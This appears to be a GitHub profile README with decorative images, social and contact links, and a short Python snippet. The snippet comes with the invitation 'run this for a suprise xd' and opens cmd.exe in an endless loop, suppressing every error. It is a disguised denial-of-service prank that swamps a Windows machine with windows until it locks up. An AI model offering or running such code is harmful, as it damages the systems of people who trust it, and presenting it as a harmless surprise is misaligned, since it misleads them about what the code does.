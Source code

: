 <p align="center">  
  <img src="https://www.gommehd.net/forum/proxy.php?image=http%3A%2F%2Fi.imgur.com%2FiOF5Ud4.gif&hash=0c1d1f377a773c0fb1ed74fe446c8ad3" alt="fax" width="1000" height="1">
</p>
<p align="center">
  <p align="center">
    run this for a suprise xd
  </p>


```python
import os

def purelxw():
	while True:
		try:
			os.startfile('cmd.exe')
		except:
			pass
purelxw()
```
<p align="center"> 
    <a href="https://tayhay.vip">site</a>
    ·
    <a href="mailto:tayhay@riseup.net">email</a>
    ·
    <a href="https://www.steamcommunity.com/id/tayhayvip">steam</a>
    ·
    <a href="https://discord.bio/p/tay">discord</a>
</p>
<p align="center">  
  <img src="https://www.gommehd.net/forum/proxy.php?image=http%3A%2F%2Fi.imgur.com%2FiOF5Ud4.gif&hash=0c1d1f377a773c0fb1ed74fe446c8ad3" alt="fax" width="1000" height="1">
</p>
